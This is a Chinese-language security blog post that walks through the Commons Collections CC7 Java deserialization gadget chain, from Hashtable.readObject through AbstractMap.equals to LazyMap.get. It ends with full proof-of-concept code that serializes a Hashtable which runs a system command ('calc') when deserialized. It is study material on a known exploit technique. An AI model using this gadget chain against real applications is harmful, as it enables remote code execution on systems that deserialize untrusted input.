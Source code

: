```yaml
---
title: JAVA安全:CC7链
---
```


*作者：Narcher*	*时间：2024/3/20*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

作为CC链系列的最后一条，当然要放到最后学啦



## 正文

我们先来看一下ysoserial中的CC7链流程：

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/1710855641604.png" alt="1710855641604" style="zoom:67%;" />

这里是在LazyMap的get方法之前发生了变化，我们还是按照之前的思路，一点点分析

### 1.AbstractMap部分

从调用get方法的类里边找，找到了AbstractMap类，它的equals方法调用了get方法：

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/1710856682591.png" alt="1710856682591" style="zoom: 50%;" />

m对象是我们传入的参数，可控，我们继续向上找

### 2.AbstractMapDecorator部分

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/1710856778618.png" alt="1710856778618" style="zoom:67%;" />

发现AbstractMapDecorator类的equals方法调用了equals方法，且其构造器如下：

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/1710856824632.png" alt="1710856824632" style="zoom:67%;" />

map参数可控，我们继续往上找

### 3.HashTable部分

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/1710856931546.png" alt="1710856931546" style="zoom:67%;" />

HashTable类的reconstitutionPut方法对equals方法进行了调用，看起来流程也很简单，就是对增加的key进行hash计算，如果hash值与tab中的所有元素均不同，就会增加到数组tab中，否则就会报异常

我们再看看调用该方法的部分：

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/1710857165911.png" alt="1710857165911" style="zoom: 67%;" />

HashTable类中的readObject方法，看到这里我们就大功告成了，HashTable类完全可以作为链子的结尾。我们来构造链子

### 4.构造链

首先，LazyMap之前的部分由于和CC1链相同，我们就直接copy过来：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
```

接下来我们按照链子触发的顺序来写链子

#### 4.1 HashTable部分

HashTable的readObject方法会直接用reconstitutionPut方法来读取序列化数据，我们要利用reconstitutionPut方法触发其中的equals方法，就需要进入其for循环的if判断，而且需要if判断的第一个判断（二者hash值相同）通过，因此我们需要至少传入两个hash值相同的LazyMap，那么我们就需要控制LazyMap的key和value值，网上key的hash相同的有yy和zZ或AaAaAa和BBAaBB等，我们随便选一组作为两个LazyMap的key值即可

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/image-20240320151803680.png" alt="image-20240320151803680" style="zoom:67%;" />

这里调用的e.key.equals(key)要特别注意一下，e指的是数组tab，e.key的key指的是传入的第一个LazyMap，equals(key)中的key指的是传入的第二个LazyMap，我们就是要用第二个LazyMap触发命令执行

#### 4.2 AbstractMapDecorator部分

由于LazyMap没有equals方法，所以会调用LazyMap的父类AbstractMapDecorator中的equals方法

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/image-20240320152111512.png" alt="image-20240320152111512" style="zoom:67%;" />

（这里其实就是把上边的图复制下来了，因为流程是一样的，只是反过来了）

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/image-20240320152205265.png" alt="image-20240320152205265" style="zoom:67%;" />

这里我们传入了LazyMap，其this.map指的是LazyMap中传入的HashMap，看不懂的话可以调试一下

之后触发HashMap的equals方法

#### 4.3AbstractMap部分

HashMap也没有equals方法，因此也会调用其父类的equals方法

<img src="JAVA%E5%AE%89%E5%85%A8CC7%E9%93%BE/image-20240320152427981.png" alt="image-20240320152427981" style="zoom:67%;" />

这时里边传入的o对象其实还是我们刚开始传入的第二个LazyMap对象，经过上边的一系列判断便可调用LazyMap的get方法，之后便会触发如同CC1链一样的流程而进行命令执行。

#### 4.4 链子展示

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});
HashMap<Object,Object> innerMap1 = new HashMap<>();
HashMap<Object,Object> innerMap2 = new HashMap<>();
Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
lazyMap1.put("yy",1);
lazyMap2.put("zZ",1);
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 1);
Class c = chainedTransformer.getClass();
Field iTransformersField = c.getDeclaredField("iTransformers");
iTransformersField.setAccessible(true);
iTransformersField.set(chainedTransformer, transformers);
lazyMap2.remove("yy");
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC7.txt"));
oos.writeObject(hashtable);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC7.txt"));
ois.readObject();
```

